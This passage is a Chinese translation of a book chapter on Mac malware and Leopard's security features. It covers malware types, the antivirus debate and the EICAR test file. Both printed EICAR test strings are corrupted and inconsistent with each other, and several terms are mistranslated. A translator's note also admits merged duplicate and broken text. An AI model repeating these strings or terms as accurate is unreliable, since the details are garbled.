随着操作系统（OS）进一步远离桌面、笔记本电脑和服务器，进入消费技术领域（iPhone、iPod 等），这对恶意软件的进一步传播和其他安全违规会有什么影响？嗯，一方面，OS 用户群的扩大在吸引黑客关注方面具有影响。这一点由 *The Register* 杂志在 2008 年 1 月提出，他们指出新发布的 MacBook Air 增加了风险，因为这将增加 OS 用户群规模。在 *ISO14* 上，Adam O'Donnell 以一种更优雅且不那么直接的方式表达了类似的观点，他引用游戏论来支持这样一种主张：Mac 用户在本质上并不比 Windows 用户更聪明，Mac 系统在本质上也不比 PC 更安全，但苹果的市场规模还不足以支撑开发攻击的成本（投资回报率论点）。

我无法保证他将百分比映射到临界点的做法是准确的（参见 http://www.youtube.com/watch?v=Jo1M9WBayBQ），但有趣的是，NPD 最近报告说，2008 年 2 月苹果占了美国 PC 零售销售额的 14%（当然，OS X 不再局限于桌面、笔记本电脑和服务器，已有效扩展到智能手机和 MP3 播放器）。

任何当前意义的 Mac 恶意软件都是犯罪性的，是实现犯罪行为的手段，而非目的本身。它的真正意义不在于目前受影响系统的数量（较少），而在于有人认为有足够的潜在 Mac 用户受害者值得继续开发的成本。这其中有些事实。对 Mac 用户社区最大的潜在威胁与其说是病毒，不如说是他们对社会工程攻击的敏感性。这种脆弱性由于一种“这种事不会发生在我们这里”的自满心态而被加剧。苹果自己的网站也无法免受伪装成安全建议的营销影响，甚至一些 Mac 狂热者也担心苹果可能会效仿微软进入反恶意病毒市场。也许更担忧的是，virus.org 网站本身与安全产品 MacScan 相关联，但它对 Mac 威胁形势一无所知，以至于它连续几天没有注意到自己的论坛链接到了曾提供恶意软件的网站，而这些网站是以观看色情视频的解码器为幌子装的。（在此时，该问题尚未解决：见图 3.7。）

### 图 3.7 指向受 DNSchanger 感染网站的链接

### 解决方案快速通道

#### 恶意软件分类

- 病毒是以寄生方式复制的程序。许多常见或曾经常见的病毒是 PC 专用的，在 Mac 平台上没有相似的对应物，除非安装了 PC 模拟器。针对 OS X 之前的 Mac OS 版本，有许多（现在已罕见）病毒，但只有一两个 PoC OS X 病毒，这反映了目前 Windows 的现状，即最主要的威胁几乎都是某种形式的木马。
- 蠕虫通常分为主机蠕虫和网络蠕虫。它们可以被描述为非寄生方式复制的恶意软件。它们不会附在其他软件上。一些研究人员认为蠕虫是病毒的一种特例。蠕虫有时也被描述为自启动（不需要用户操作）或用户启动。然而，这两种分类也适用于许多其他类型的恶意软件。
- 木马是一个表现为执行用户可能觉得吸引的任务的程序，但实际上（或同时也）在秘密执行用户不希望发生的事情。许多旧的木马（以及其他恶意软件）是有意破坏的，且通常并不广泛。然而，目前大多数木马的意图是窃取而非破坏，无论是密码、财务数据还是其他任何。
- 木马实际上是一类广泛的恶意软件，涵盖了多种类型，如机器人、根病毒、隐形套件、密码窃取者等，其中某些类型在本章中已专门描述。
- 迷因（Memetic）是一个主要用于病毒谣言的术语；然而，所有的谣言和大多数链信都构成了严重的问题。病毒谣言几乎不是针对 Mac 的，但 Mac 用户和任何人一样可能落入谣言和链信的陷阱。

#### OS X 之前的恶意软件

- HyperCard 感染有时是宏病毒。无疑，它们在多年里一直是 Mac 威胁形势中一个相当一致的特征。然而，正如预期的那样，随着苹果对 HyperCard 的支持减少，它们也减少了。
- 数量最多的原生 Macintosh 病毒是应用程序感染器和系统感染器。后者通常感染系统文件、系统扩展程序或桌面文件。
- 还有许多杂类木马，几乎都是破坏性的。还有发送敏感信息的 AppleScript 木马。
- 20 世纪 90 年代中期出现了 Mac 宏病毒感染流行，尤其是 Word 宏病毒。虽然几乎没有宏试图尝试在 Mac 文件系统上实际运行负载，但早期的（WordBasic）宏病毒在运行 Word 6.x 或更高版本的 Mac 上可以完美地复制，尽管某些 VBA 宏病毒并不侧重于复制。随着微软……宏病毒的重要性已很大程度上下降。

（注：原文此处存在大量重复和逻辑断层，译文已根据上下文进行整合）

#### 常见问题

**Q:** 既然你那么喜欢 Mac，为什么你所有的截图都是用 PC 上的 Internet Explorer 7 拍的？

**A:** 因为它们是在我主要用于工作的机器上拍的。恰巧的是，本章的大部分实际写作工作是在 MacBook 上的 NeoOffice 完成的，但我的工作笔记本电脑配置更高，而且运行发行商的模板时运行更可靠，因为它运行的是 Office 2007。然而，下一章关于防御措施的章节详细阐述了反恶意软件措施，因此更多的截图必须在 MacBook 上完成。

**Q:** 什么是 WildList？

**A:** 请参阅 www.wildlist.org。简而言之，WildList 是一份由胜任的反恶意软件研究人员报告的“确信（感染）”（Be In The (It)）的病毒性恶意软件列表。它并没有列出所有已知的恶意软件，而是基于一个经过验证样本的高质量存储库（WildCore），这使其在恶意软件产品的测试中非常重要。

**Q:** 什么是加壳（Packer）？

**A:** 运行时加壳（Runtime packers）最初旨在压缩可执行文件，以减少它们在磁盘上占用的空间。然而在在几年里，坏人发现加壳可以用来伪装恶意可执行文件，使得现有的防病毒特征不再有效，现在有许多加壳工具专门用作混淆防病毒扫描器的工具。当然，这个简短的描述之外还有很多问题，但目前恶意加壳在 Windows 上的问题远比在未来可能对 Mac 用户产生的问题得多。

**Q:** 你不是为一家防病毒公司工作吗？这难道意味着你会有偏见，推销对 Mac 用户来说根本没有必要的安全软件吗？

**A:** 我担任反恶意软件行业顾问有一段时间了，目前我全职任于一家反恶意软件公司，我应该指出的是，该公司目前没有 Mac 版的产品。（当然，这可能会改变，但我不知道何时或是否会改变。）然而，自从我为英国国家医疗服务体系（NHS）以及在此之前的癌症研究慈善机构工作以来，我的立场没有发生显著变化。对于推销不必要的软件，我没有利益，我现在也不知道。我不认为目前每个 Mac 用户都有运行防病毒软件的必要。但是，我确实认为 Mac 用户需要更好地了解现在和未来的风险究竟是什么，并且获得更多的事实，而不是更多的渲染和盲目愿望。

**Q:** 为什么这一章有这么多内容关于过时的恶意软件？

**A:** 因为在 OS X 之前的恶意软件在整个恶意软件历史上占有重要地位，理解过去可以让我们更好地了解未来可能会发生什么。

**Q:** 这一章的大部分内容不是关于 Mac 上不存在的恶意软件吗？

**A:** 此处提到的某些恶意软件在 OS X 环境中几乎很少见到。目前，如果你不在虚拟环境中使用 Windows，并且不与 PC 用户交换数据，也许这些内容与你都无关。如果你生活、工作和娱乐都处于一个混合的“连接型”环境中，也许你会发现了解更多关于使用 PC 的世界是有用的。他们的问题也可能是你的问题。

**Q:** 那些业余病毒编写者都去哪儿了？

**A:** 我怀疑他们都在玩 PoC 手机病毒，如果他们还没有被犯罪团伙招募去编写和维护僵尸网络（bots）。

本章的解决方案：

- 开箱即用安全？
- 反恶意软件技术原理
- 反恶意软件产品
- 产品测试
- 总结
- 解决方案快速通道
- 常见问题

---

# 简介

现在你已经知道恶意软件是什么了，你应该对它做什么？Apple 声称“每一台 Mac 开箱即用安全”，这得益于 Mac OS X 经证明的基础。Apple 工程师设计 Leopard 时引入了更多的安全性，以保护你的个人数据并让你的在线生活更安全（见图 4.1）。

### 图 4.1 Leopard 安全

使用 Leopard 开发。

创建更强大的应用。

了解更多 >

安全。设计即安全。

技术

64 位

Core Animation

多核

UNIX

安全

Bonjour

每一台 Mac 都是开箱即用安全的——得益于 Mac OS X 经证明的基础，Apple 工程师设计 Leopard 时引入了更多的安全性，以保护你的个人数据并让你的在线生活更安全。

### 安全。设计即安全。

我们将更仔细地观察 Apple 所说的“安全”是指什么，并讨论在何时 OS X 的内在安全性足以消除对第三方安全软件的需求。随后我们将继续查看反恶意软件保护的基本原理，然后详细查看特定技术。

### 开箱即用安全？

图 4.1 中的网页（www.apple.com/macosx/technology/security.html）描述了 Leopard 开箱即用安全的若干功能，我们可以将其分解如下：

- 透明且易于使用。
- 易于更新和修补，这一直是操作系统（OS）X 的优特性之一。然而，正如上一章讨论的，虽然修补系统和应用程序软件以关闭关键漏洞是重要的，但许多（或大多数）恶意程序并不是自启动的，也不依赖缓冲区溢出和堆栈溢出等系统漏洞。它们是用户启动（或混合启动）的，通过欺骗受害者运行它们来实现。对于人类的轻信没有补丁可用。


- 开源代码。换句话说，精英 BSD 开发社区正在查看核心代码，Apple 开发者正在利用这些资源来提高 OS X 组件的安全性。这是一件好事，正如他们与 CERT、DHS 等合作一样，但并不一定能解决恶意软件问题，正如前一点所述。

- 无危险下载。这描述了“标记”功能，即 Safari、iChat 和邮件会在用户准备打开下载的应用程序时发出警报，甚至会检查应用程序的数字签名（如果可用）。这些功能只能微弱缓解危险，而不是消除它。由于此功能并不真正测试应用程序是否具有恶意，它将判断执行是否安全的决定交给了用户。

- 加密、虚拟专用网络（VPN）和文件夹共享虽然很重要，但并不适用于目前的恶意软件。例如，网络共享是僵尸网络的主要切入点。

沙箱测试听起来是个好主意，如果你在反恶意软件技术的范围内接触过沙箱的话。恰巧，Apple 的想法是相当有限的沙箱应用。Leopard 对其某些辅助应用程序（如 Spotlight 索引器）进行了沙箱处理，限制了它们对其他文件和网络的访问以及启动其他应用程序的能力。这将关闭一个潜在漏洞，但并未限制其他程序造成损害。Leopard 实际上是 OS X 的第五个大版本，它的某些安全功能与早期版本非常不同。要求早期版本的用户为每次升级付费显然是天真的。许多应用程序不仅跟上了 OS X 的升级，而且以与 Apple 相同的速度放弃对旧版本的支持，为这样做提供了一些动力。毕竟，甚至一些开源开发者也撤回了早于 10.4（Tiger）的版本。某些系统在不进行重大升级的情况下无法运行最新版本，甚至那时也无法。而且，在世界上某个地方，仍然有人运行 OS 9.x 或更早的系统，出于选择，或者因为他们的硬件无法胜任。

我将在本节后面讨论对于无法或不愿运行 Apple 最新硬件软件版本的用户所面临的问题和选项。

Apple 描述了另一种名为库随机化的安全功能。这类似于 Vista 的地址空间布局随机化（ASLR），即系统文件被加载到内存中的随机地址，使得恶意代码难以定位并调用特权函数。Vista 使用 256 个随机分配的地址之一。Leopard 将系统库重定位到数千个地址之一。

### 图 4.2 Mac OS X Leopard 安全功能



### 增强的 VPN 客户端兼容性

- 连接到 VPN 客户端代理。

- Leopard 支持思科组过滤（Cisco Group Filtering）以及 VPN DHCP，这允许你动态配置静态路由和默认搜索等选项。

### 多用户证书

- 选择用于加密电子邮件的数字证书时具有灵活性。通过支持多个用户证书，你可以使用“钥匙串”应用程序将证书与各种电子邮件地址关联。

### 签名应用程序

- 拥有数字签名让你感到安全；应用程序可以识别其身份和完整性。所有使用 Leopard 签名的应用程序都是受信任的，独立开发者也可以对他们的应用程序进行签名。

### 共享与协作能力

- 通过在 Grid 或 Windows 上将其设置为共享文件夹，与他人共享任何文件夹。

- 你还可以创建和编辑访问控制列表、通过网络目录共享镜像，或作为通讯录进行连接。

### 增强的智能卡功能

- 让你的智能卡发挥更大的作用。现在你可以使用智能卡来解锁各种卷，并在插入智能卡时对邮件和证书签名。Leopard 支持联邦员工和客户的 PIN 标准。

### 基于应用程序的防火墙

- 对内置防火墙获得更多控制权。根据特定应用程序的行为指定允许或阻止入站连接。

### 沙箱

- 进入新的保护层。沙箱机制通过限制应用程序对文件、网络访问以及启动其他应用程序的能力，防止黑客劫持应用程序进行运行。许多 Leopard 应用（如 Bonjour、Quick Look 和 Spotlight 索引）都是沙箱化的，因此黑客无法利用它们。

### 库随机化

- 防御各种攻击。常见的安全漏洞之一是黑客代码拥有已知的内存地址，以此利用系统函数。Leopard 通过将系统库移动到数千个可能的随机分配地址之一，挫败了这种手段。

### 磁盘镜像的强加密

- 获取磁盘的详细描述。“磁盘工具”现在允许你使用 256 位加密创建加密磁盘镜像。

### SBI 数据包签名

- 通过基于 Windows 的服务器享受更多的隐私和安全。

### Mac OS X 安全技术简报

- 了解有关 Mac OS X Leopard 最新安全功能的介绍。下载

> 值得注意的是，Apple 没有犯微软吉姆·奥尔金犯过的错误，后者曾将此吹称为一种重要的防蠕病毒方法。“如果某台机器上存在远程漏洞，蠕病毒试图从一台机器跳到另一台机器，那么实际上加固它的概率非常小。”你也不应该犯同样的错误。这不是一个坏主意，它改进了 Vista 模型，但它并不是恶意软件的终结。

关于 Leopard 安全模型的更详细描述请见 `http://images.apple.com/macos/pdf/MacOSX_Leopard_Security_TB.pdf`。里面有极佳的信息，我绝不认为 Apple 试图误导他们的客户，但诸如“你不需要成为安全专家就可以配置你的 Mac 在家里或默认处于安全状态，你只需要如何打开电脑。因为这些默认设置限制了你的 Mac 在网络上的运行方式……”不应被认为是绝对安全的保证。例如，认为 Leopard 新的基于应用程序的防火墙“让非专家更容易获得防火墙保护的益处”（见图 4.3）。“基于应用程序而非基于端口”阻止入站连接并非完全是表面功夫。它确实比全盘拒绝“非必要”网络服务的限制性要小，但再次将“哪些应用程序是安全的”这一决策推给了用户。

## 第 4 章 · 恶意软件检测与 Mac

### 图 4.3 防火墙选项



此外，Apple 还没有从 Windows 用户的不幸中获得足够的经验，如果这里的假设是只有入站连接才重要。如果一个个人（或公司）防火墙就足够停止所有恶意软件，并且你可以假设这种防火墙可以以 100% 的安全性进行配置并保持系统基本可用，而且你可以假设给定的系统可以配置到该标准，也许这可能是真的。但在现实世界中，我们认为监控出站流量也是值得的。例如，尽管存在预防措施，某种机器人仍然夺取了控制，那么可能通过停止可疑的出站流量来检测并减轻其影响。

令人欣慰的是，功能强大、可配置更高的 IPFW 防火墙仍然供“专家用户”使用，但这让开箱即用防火墙系统的可用性产生了疑问。这难道不是说明顶尖的安全仅适用于那些具有配置更专业的双向防火墙（最好在边界处而非用户桌面端）的专业知识的人吗？实际上，我认为事实确实如此，但这似乎与 Apple 的“开箱即安全”的立场相矛盾。无论如何，我还没有见过任何像马库斯·拉纳姆的“完美防火墙”（现在称为“最终安全深度包检测与应用程序安全系统”）那样安全的防火墙（见图 4.4）。

### 图 4.4 完美防火墙



## 工具与陷阱

### 配置完美防火墙

以下是关于这种超级防御措施的配置说明。

- 为了最佳效果，将防火墙安装在中央处理器（CPU）和电源插座之间。防火墙跨越电源线。安装防火墙时确保使用橡胶手套。如果防火墙安装正确，CPU 上的所有灯都会变暗，风扇将变安静。这表明系统已进入安全状态。

- 对于互联网，将防火墙安装在 T1 边界和互联网之间。防火墙跨越 T1 线。当你的服务提供商的网络中心来电告知他们失去了连接时，说明防火墙安装正确。

在对 Apple 所指的“安全”有了更好的理解后，也许更容易回答：“用户是否应该运行杀毒软件？”这个问题是由 Rich 在 `tidbits.com/article/9511` 提出的。

> “现实是 Mac 是相对安全的。”我可能不同意他的观点，但不确定他不（或 Mac 用户）意识到这不仅仅是像 Windows 用户那样采取预防措施的问题。

- 恶意软件是由利益驱动的，目标市场份额最大的平台更有利。”Mogul 引用了亚当·J·奥登，“游戏理论显示，当恶意软件作者可靠入侵的速度赶上 Mac 市场份额时，一个转折点将会到来。届时，盈利的 Mac 恶意软件将会出现。”

- 桌面杀毒软件也只是一种有限的防御，而且通常消耗资源。我认为这种主张是，有更有效的阻止恶意软件的方法，而无需安装常驻（访问时）杀毒软件所带来的处理开销。事实上，这是“由于我有边界保护，所以我不需要桌面安全”这一主题的变体。根据你如何定义边界，这在某些情况下可能是正确的。互联网并不是唯一的威胁向量。写作当时最常见的威胁向量之一是 USB 以及其他设备和介质，它们可以使用 Windows 环境常用的“自动运行”功能（`autorun.inf`）。OS X 通常不支持此类自启动程序和脚本，但没有什么能阻止不留神的用户从 CD 和 U 盘运行恶意软件。

### 攻击与防御

### 我们所说的已知恶意软件是指什么

Mogull 还声称：“即使按照最乐观的估计，杀毒软件也只能捕获野外 85% 到 95% 的已知恶意软件（病毒、蠕虫、特洛伊木马和其他恶性程序）。”实际上，杀毒软件应该捕获 100% 的已知恶意软件，即它具有特征码检测能力的恶意软件，而这又包含了所有在技术上存在于野外的恶意软件。也就是说，被包含在 WildList（参见 `www.wildlist.org`）中并验证为“野外”的恶意软件。（事实是，反病毒产品有时无法进入 WildList 列表（见图 4.5）。但在更广泛的杀毒软件领域，未知软件是优秀的商业产品与平庸产品之间的主要区别（到目前为止，WildList 极少包含针对 Mac 的特定恶意软件）。很难论证杀毒软件能检测到接近 85% 的未知恶意软件。然而，除非你有更好的替代方案，或者有理由认为风险被其他考虑因素所抵消，否则这并不是使用它的理由。）

- 但在文中，Mull 将这一思想扩展到使用如 Gmail 和 Hotmail 等电子邮件账户，这些账户集成了垃圾邮件和恶意软件过滤功能。这是一个不坏的主意，尽管某些类型的垃圾邮件和诈骗经常会通过这些过滤器。恶意附件通过的概率更低（而且目前 Mac 恶意软件几乎从未出现），但这种情况确实会发生。显然，尽管使用启发式和行为分析进行主动检测的开发取得了巨大进步，杀毒程序仍然无法捕获所有恶意软件。可以论证（正如 Mogull 所主张的），对于 Mac 用户（实际上也包括 Vista 用户）来说，这种开销并不足以支持杀毒软件这种“侵入性”且“资源密集型”的侵占。（实际上，他主要说的是全系统扫描，而对于运行了称职的访问时扫描器的系统，这种扫描很少是必要的。我将在本章晚些部分详细介绍这些技术问题。）对于 Mac 用户，我同意个人用户仍有空间根据自己的判断来决定这种成本（单机成本和资源影响）与安全之间的权衡，但在企业环境中则不如此。然而，我不想也不打算运行一台未受保护的 Windows PC，即使是运行在 Vista 下的电脑。

- “如果你从事高风险在线行为，请使用杀毒软件，并一定要切换到带有 NoScript 的 Firefox。”虽然对于什么构成“风险”行为的观点不一，但我并不怕论证杀毒软件是一个坏主意，而 NoScript 绝对值得考虑。

- “如果你在有杀毒策略的企业环境中使用 Mac，你仍然需要使用杀毒软件。”我曾工作过一个认为保护 Mac 没必要的环境，但我花了大约三年的时间才改变了管理层想法。

- “如果你通过 Boot Camp 或虚拟化在 Mac 上运行 Windows，请安装 Windows 杀毒软件。如果你正在运行 Mac 工具，如果存在任何其他 Windows 系统，这些工具将无法帮助保护该分区或虚拟机。”我再同意不过了。实际上，这是我在 20 世纪 90 年代强力提出的一个论点，尽管模拟器已经变了，但论点的依据并没有改变。

### 图 4.5 病毒 { VB100 奖包含对病毒列表恶意软件的测试



### 反恶意软件技术

为什么是反恶意软件而不是杀毒软件（AV）？嗯，正如我们已经看到的，病毒不是唯一的问题。事实上，它们不再一定是最重要的一类恶意软件了。杀毒软件有很多替代方案。互联网上到处都是自称为反间谍软件、反特洛伊木马或反根工具包程序的程序。其中一些并不是反恶意软件应用程序。我们有时将这些程序称为“流氓反恶意软件（或反间谍软件）应用程序”，正如之前提到的，它们开始出现在 Mac 上，尽管数量还没有 Windows 上的同类产品多。这些程序是无用的且往往是恶意的。但有很多合法且实用的程序可以检测整个恶意软件类的一个子集。令人困惑的是，有些程序是由同样销售全套反恶意软件/杀毒产品线的公司营销的。例如，许多供应商现在都有独立的（通常是免费的）反根工具包程序。

这并不意味着我们过去认为杀毒软件（实际上现在有时也是如此）检测比某些专业检测产品更广泛的恶意软件，而那些专业检测产品有时被营销为必要的，“因为杀毒产品只检测病毒”。然而，更专业的程序可能对其要检测的任何特定类型比杀毒程序检测得多。这取决于许多因素，例如程序通用检测的能力而非检测特定恶意软件的能力。此外，主流杀毒供应商可能有特别高效的协作样本共享机制，这些机制是通过多年经验和供应商之间艰难获得的信任建立的。

事实上，大多数人无差别描述为病毒的东西，实际上应该描述为恶意软件。这并不意味着反病毒（AV）产品不应该尝试检测它。可能只是我们检测其他恶意软件的能力继续被低估了，因为多年来我们在检测自我复制的恶意软件（病毒和蠕虫）方面一直取得了（相当）的成功。

当然，杀毒软件通常会检测其设计运行平台上的所有已知病毒（即存在特征码的病毒）。这意味着商业级 Windows 杀毒软件通常能检测 Windows 和 DOS 的所有已知病毒。商业级 Mac 杀毒通常至少能检测某些 PC 病毒，尽管以前并非如此。然而，Windows 检测 Mac 特有恶意软件的情况较不常见。通常情况下，杀毒扫描器在启发式检测新型和“真”的病毒及蠕虫（尤其是群发邮件器）方面也相当出色。


历史上，即使当供应商过去反对应该检测非复制对象（特别是特洛伊木马）的假设，尽管它们不是病毒，某些非复制程序仍被检测。而且不仅仅是特洛伊木马，有些并非恶意。常见的例子包括：

- 无法复制因此符合病毒定义的程序

- 损坏或有问题的无法执行的文件

- 垃圾文件（杂乱、无法分类的垃圾）

- 自身不复制的病毒相关文件：

  - 零代病毒

  - 病毒释放器（安装病毒的程序）

  - 病毒工具包和生成器（我们经常看到无法获得良好病毒样本的测试人员使用它们）

- 作为 EICAR 测试文件的合法程序。

### 关于 EICAR

EICAR 测试文件不是病毒因为它不包含复制代码。它是一个二进制程序（技术上是 .COM 文件），用 PC 汇编语言编写，由 Padgett Peterson 和 CARO 的其他成员精心构建，以便可以通过电话口述（例如由热线支持操作员）并在文本编辑器中输入。在真实或模拟的 PC 上执行时，它除了显示“EICAR-STANDARD-ANTIVIRUS-TEST-FILE!”之外什么都不做，尽管大多数人永远看不到那个显示，因为杀毒软件阻止了执行。当然，它在 Mac 上无法执行（除非在某种形式的 PC 模拟器下运行），但商业级 Mac 扫描器会检测 EICAR 代码并将其标记为病毒（或者更准确地说，是 EICAR 测试文件）。文字处理器不行，因为几乎所有现代 WP 都会添加文件头，而 EICAR 测试文件的规范非常严格（见图 4.6）。

## 第 4 章 · 恶意软件检测与 Mac

```
X50!P%@[4PZX54(P^)77$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```

根据 alt.comp 的常见问题解答，“EICAR 文件并不代表扫描器检测病毒的效率，因为 1) 它不是病毒，且 2) 检测病毒或非病毒对于被检测的病毒并不是一种有效的测试。它只是对程序是否已安装的一种（有限）检查，我不确定这是否是衡量程序是否安装正确的标准。例如，扫描器正确地报告了一个名为 EICAR 字符串的文件，这一事实并不能告诉它是否能检测出宏病毒。事实上，如果我想表现得非常挑剔，我必须说，扫描器在具有特定扩展名的文件中检测到 EICAR 字符串，并没有告诉你任何信息。”

该字符串应该只在文件开头被检测到时触发警报。已知某些产品会在文件其他位置包含该字符串的文件时触发“误报”。

Jimmy Kuo 为该常见问题解答的相应部分贡献了以下扩展。“EICAR 测试文件的目的是让用户测试与检测病毒相关的所有功能。而且，如果由于某个平台检测到了它，这是否意味着一切功能都在正常工作？”它是为了实现此类功能：

- 警报系统是否正常工作？

- 蜂鸣器是否正常？

- 网络警报是否正常？

- 日志记录是否正确？

- 它显示什么？

- NLM 是否正常？入站的？？出站的？

- 压缩文件扫描是否正常？

- 对防病毒软件安全部署的意外 MIS 测试。

该文件在测试某一个产品是否优于另一个产品方面没有任何作用。以前，每个产品都必须提供自己的测试方法。这使得独立标准成为可能。

Randy Abrams 在 1999 年病毒大会议上发表了一篇关于扩展 EICAR 测试文件用途的有趣文章（“赋予 EICAR 测试文件一些牙齿”），另一篇针对 AVAR 2000 年的论文（“测试损坏的防病毒软件”）也使用了它作为某些示例。

### 图 4.6 eicar.org/antivirustestfile.html 上的 EICAR 测试文件描述

该文件是一个合法的 DOS 程序，运行时会产生合理的结果（消息“EICAR-STANDARD-ANTIVIRUS-TEST-FILE”）。

它既短又简单——事实上，它完全由可打印的 ASCII 字符组成，因此可以使用普通文本文件创建。任何支持 EICAR 测试文件的防病毒程序，只要文件以前 68 个字符开头且长度为 68 字节，就应该在任何文件中检测到它。

```
X5O!P%@AP[Z]{ZX5P4(P)77}$H*EICAR-STANDARD-ANTIVIRUS-TEST-FILE*H*
```


前 68 个字符是已知字符串。文件可以在后面可选地附加任意组合的空白字符，但不能超过 128 个字符。允许的空白字符包括空格符、制表符、LF、CR、CTRL-Z。为了保持简单易改，该文件只使用大写字母、数字和标点符号，不包含空格。输入测试文件时唯一需要注意的是，大写字母“O”，而不是数字 0。

我们鼓励你利用 EICAR 测试文件。如果你认识正在寻找真实病毒的人，请对他们进行“测试”。

多年来，在维护不善的病毒库中，流通了许多杂项对象，供较少的评审人员测试 AV 软件。大多数供应商已向数据库添加了这些对象的定义（签名），而不是冒着未检测到它们而受到惩罚的风险。确实属于测试集中的对象（除非声称是纯病毒库）：

- 释放程序 (Droppers)、下载器
- 键盘记录器和密码窃取器
- 后门、远程访问木马 (RATs) 等
- 破坏性木马
- 间谍软件和广告软件（尽管广告软件并不总是被视为恶意）
- Rootkit 和隐藏工具包
- 玩笑程序（特别是当它们假装成破坏性木马时）
- 僵尸网络（机器人、分布式拒绝服务 [DDoS] 代理等）
- 可能不需要的应用程序 (PUA)，有时被称为可能不需要的程序 (PUPs)

检测所有非复制恶意软件实例和变体比检测所有已知和未知病毒要困难得多，因为这需要比单纯复制能力更广泛的功能进行测试。

